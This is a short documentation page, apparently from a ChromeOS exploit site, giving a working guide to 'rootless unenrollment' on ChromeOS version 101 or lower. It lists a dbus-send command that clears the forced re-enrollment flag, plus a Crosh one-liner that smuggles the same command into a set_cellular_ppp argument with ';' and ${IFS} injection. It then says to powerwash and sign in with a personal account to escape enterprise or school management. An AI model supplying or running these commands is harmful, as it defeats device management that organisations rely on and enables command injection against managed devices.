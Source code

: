 ```yaml
---
title: Rootless Unenrollment (≤v101)
description: Documentation for Rootless Unenrollment.
keywords: ["chromeos exploits"]
kernver: 1
---
```


:::note
This relies on you being at or below version 101. See [ChromeOS Versioning](/kajigs/crosver).
:::

# Requirements

- Crosh access
- Version 101 or lower

# Guide

Run this as `chronos{:sh}`:

```
dbus-send --system --print-reply --dest=org.chromium.SessionManager /org/chromium/SessionManager org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd
```

Or a funny one-liner for Crosh:

```
set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'
```

If successful, the command will return `method return` and some other data after that. Powerwash your Chromebook and log in with a personal email. On devices without FWMP, you will also have the option to enter developer mode immediately.

\- OlyB
